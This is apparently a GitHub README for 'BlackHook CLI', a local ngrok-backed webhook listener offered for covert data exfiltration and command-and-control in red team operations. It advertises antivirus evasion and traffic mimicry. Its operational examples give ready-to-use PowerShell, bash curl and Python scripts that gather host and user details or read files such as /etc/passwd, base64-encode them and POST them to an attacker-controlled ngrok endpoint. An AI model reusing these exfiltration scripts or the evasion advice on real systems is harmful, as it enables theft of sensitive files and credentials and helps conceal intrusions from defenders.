


# BlackHook CLI

A covert command-line tool for establishing secure data exfiltration channels and webhook endpoints during penetration testing and red team operations.


## 🎯 Overview

BlackHook-CLI is similar to webhook.site but in the form of cli and can be run locally to carry out a variety of data exfiltration attacks

# Images Side by Side

| UI Screenshot | Requests View |
|:-------------:|:-------------:|
|  |  |


## 🔥 Key Advantages

- 🥷 **AV Evasion**: Bypasses common antivirus detection through legitimate HTTP traffic patterns
- 🌐 **Dynamic Endpoints**: Creates ephemeral ngrok tunnels that don't appear in security feeds
- 🔒 **No External Dependencies**: Self-hosted solution avoiding third-party webhook services
- 📊 **Real-time Monitoring**: Live TUI for immediate data visibility during operations
- 🧹 **Clean Footprint**: Minimal system traces and easy cleanup
- 🎭 **Traffic Mimicry**: Requests appear as legitimate web traffic
- 💾 **Flexible Exfiltration**: Supports multiple data formats and encoding schemes

## 🚀 Tactical Use Cases

- **Data Exfiltration**: Extract sensitive files and credentials via HTTP POST
- **Command & Control**: Establish covert communication channels
- **Payload Delivery Confirmation**: Verify successful payload execution
- **Persistence Validation**: Test beacon callbacks and heartbeat mechanisms


## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/blackhook-cli.git
cd blackhook-cli

# Install dependencies
pip install -r requirements.txt

# Make executable
chmod +x blackhook_cli.py
```

## ⚡ Quick Deployment

### 1. Establish Covert Channel
```bash
python blackhook_cli.py start --port 8080
```
- Automatically generates ephemeral ngrok URL
- Launches real-time monitoring interface
- Ready for data reception immediately

### 2. Configure Target Payload
Use the generated URL in your payload scripts:
```bash
# Example exfiltration endpoint
https://abc123.ngrok.io/exfil
```

### 3. Monitor Incoming Data
Watch data arrive in real-time through the interactive TUI with full request details, headers, and payload content.

## 🎯 Operational Examples

### Data Exfiltration Scripts

**PowerShell (Windows)**
```powershell
# Exfiltrate system information
$data = @{
    hostname = $env:COMPUTERNAME
    user = $env:USERNAME
    domain = $env:USERDOMAIN
    processes = Get-Process | Select-Object Name | ConvertTo-Json
}
Invoke-RestMethod -Uri "https://your-ngrok-url.ngrok.io/sysinfo" -Method POST -Body ($data | ConvertTo-Json) -ContentType "application/json"
```

**Bash (Linux)**
```bash
#!/bin/bash
# Covert file exfiltration
curl -X POST https://your-ngrok-url.ngrok.io/files \
  -H "Content-Type: application/json" \
  -d "{\"filename\":\"$(basename $1)\",\"content\":\"$(base64 -w 0 $1)\"}"
```

**Python (Cross-platform)**
```python
import requests
import base64
import os

def exfiltrate_file(filepath, endpoint):
    with open(filepath, 'rb') as f:
        content = base64.b64encode(f.read()).decode()
    
    data = {
        'filename': os.path.basename(filepath),
        'size': os.path.getsize(filepath),
        'content': content
    }
    
    requests.post(f"{endpoint}/upload", json=data)

# Usage
exfiltrate_file("/etc/passwd", "https://your-ngrok-url.ngrok.io")
```

## 🔧 Operational Commands

| Command | Purpose | OPSEC Level |
|---------|---------|-------------|
| `start` | Deploy covert endpoint | 🟢 High |
| `status` | Check operational status | 🟢 High |
| `requests` | Review captured intelligence | 🟢 High |
| `show <id>` | Analyze specific payload | 🟢 High |
| `export` | Extract operation data | 🟡 Medium |
| `kill` | Terminate and cleanup | 🟢 High |
| `clear` | Purge operation traces | 🟢 High |

## 🎮 TUI Operational Controls

| Key | Function | Description |
|-----|----------|-------------|
| `↑↓` | Navigate | Browse captured payloads |
| `Enter` | Inspect | Deep dive into payload details |
| `c` | Clean | Emergency data wipe |
| `e` | Extract | Quick data export |
| `k` | Kill | Terminate operations |
| `q` | Quit | Exit interface |

## 🤝 Contributing

Security researchers and penetration testers are welcome to contribute:

---
#### Inspired from Webhook.site
